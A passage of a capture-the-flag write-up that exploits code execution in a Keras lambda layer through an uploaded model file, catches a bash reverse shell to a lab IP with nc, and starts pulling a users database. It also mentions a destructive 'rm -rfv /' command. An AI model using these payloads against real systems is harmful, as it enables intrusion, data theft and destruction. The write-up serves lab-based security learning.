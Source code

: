 ``` bash
root@04e4cbf39ed3:/tmp# ls
exploit.h5  exploit.py	load.py
root@04e4cbf39ed3:/tmp# python exploit.py
...
root@04e4cbf39ed3:/tmp# ls
exploit.h5  exploit.py	load.py  pwned
```

the research also mentions that the code in the `lambda layer` gets executed when compiling as well as the loading, hence why the file was created even before I load it, so it would be a very bad idea to compile a `lambda layer` that does something like `rm -rfv / --no-preserve-root`, this did bring some fake hope when I first got my reverse shell back, but it turned out I got it from my docker container xd

I deleted the file and run the loader just to make sure that the website will be able to execute the layer
``` bash
root@04e4cbf39ed3:/tmp# ls
exploit.h5  exploit.py	load.py  pwned
root@04e4cbf39ed3:/tmp# rm pwned
root@04e4cbf39ed3:/tmp# ls
exploit.h5  exploit.py	load.py
root@04e4cbf39ed3:/tmp# python load.py
...
root@04e4cbf39ed3:/tmp# ls
exploit.h5  exploit.py	load.py  pwned
```

bingo, now I just replaced the `touch` command `bash -c 'bash -i >& /dev/tcp/10.10.15.86/10000 0>&1'`, compiled the model and uploaded it to the website to view "my predictions" then got a reverse shell as `app`

``` bash
$ nc -lnvp 10000
Connection from 10.10.11.74:34884
bash: cannot set terminal process group (816): Inappropriate ioctl for device
bash: no job control in this shell
app@artificial:~/app$ whoami
whoami
app
app@artificial:~/app$
```

## ssh as gael

after getting a shell I found `sqlite3` users database under `app`'s home directory

``` bash
app@artificial:~/app$ file instance/users.db
file instance/users.db
instance/users.db: SQLite 3.x database, last written using SQLite version 3031001
```

I downloaded it to my machine using `nc` and found a few hashes inside
